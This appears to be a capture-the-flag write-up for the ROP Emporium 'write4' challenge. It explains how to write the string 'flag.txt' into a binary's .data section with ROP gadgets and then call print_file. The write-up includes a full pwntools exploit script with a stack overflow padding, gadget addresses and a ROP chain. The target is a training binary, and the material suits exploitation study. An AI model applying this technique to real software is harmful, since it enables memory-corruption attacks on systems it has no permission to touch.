



# write4
[https://thehackerlife.medium.com/rop-emporium-write4-challenge-writeup-64-bit-updated-2020-742eab2722ec](https://thehackerlife.medium.com/rop-emporium-write4-challenge-writeup-64-bit-updated-2020-742eab2722ec) 

we have a `print_file` function but the argument `flag.txt` to print our flag isn't in the binary, so we need to "write" our string “flag.txt” into a writable register and using a rop chain to call our `print_file` with our custom argument by specifying the address of where we have written our string.

We need a “de-referenced”(has the format `mov [r11], r12`)  and writable register, running ropgadget we can find our interesting gadgets using:

```text-plain
ROPgadget --binary ./write4
```



we can use r2 to show us rw segments of memory, using `iS`



after selecting our registers, we need to “pop” values into them, so we search for `pop` gadgets.



To check if there is anything in a section or if writing anything messes up something else, use:

```text-plain
 readelf -x .data write4
```

```text-plain
from pwn import *

#declaring binaries, elf, libc
context.binary = binary = './write4'
elf = ELF(binary)
rop = ROP(elf)

#helper functions
def ASCII_to_Hex(value):
    res = ""
    for i in value:
    	res += hex(ord(i))[2:]
    return res 
    
def changeEndian(value):
    length = len(value)
    res = "0x"
    for i in range(length-1, 0, -2):
        res += value[i-1]+ value[i]
    return res
    
def generateString(value):
    return int(changeEndian(ASCII_to_Hex(value)), 16)


# useful gadgets 
#0x0000000000400628 : mov qword ptr [r14], r15 ; ret
#0x00601028 .data address to write string flag.txt
#0x0000000000400693 : pop rdi ; ret
#0x0000000000400690 : pop r14 ; pop r15 ; ret


#payload, symbols, rop chains, 
padding = b'A'*40  						#filling up buffer with junk
pop_r14_r15 = p64(0x0000000000400690)	#pop r14 ; pop r15 ; ret poping registers 
r14 = p64(0x00601028)					#.data address which will have an address to our value after mov (for r14 cuz it's derefernced)
r15 = p64(generateString("flag.txt"))	#using helper functions to convert value to hex and little endian (for r15)
mov_r14_r15 = p64(0x0000000000400628)	#mov qword ptr [r14], r15 ; ret This moves the flag.txt value into the r14 register
pop_rdi = p64(0x0000000000400693)		#pop rdi ; ret 
print_file = p64(0x00400510)			#print_file function address

#popping/emptying registers and specifying the values for them, in this case, empty r14,15 and then r14,15
#we need two registers, one writable(r14) and one to temporarily "hold" our value(r15)
payload = padding + pop_r14_r15 + r14 + r15 + mov_r14_r15 + pop_rdi + r14 + print_file

#sending payload, process interaction
io = process(binary)

io.sendlineafter(b'> ', payload)

io.interactive()
```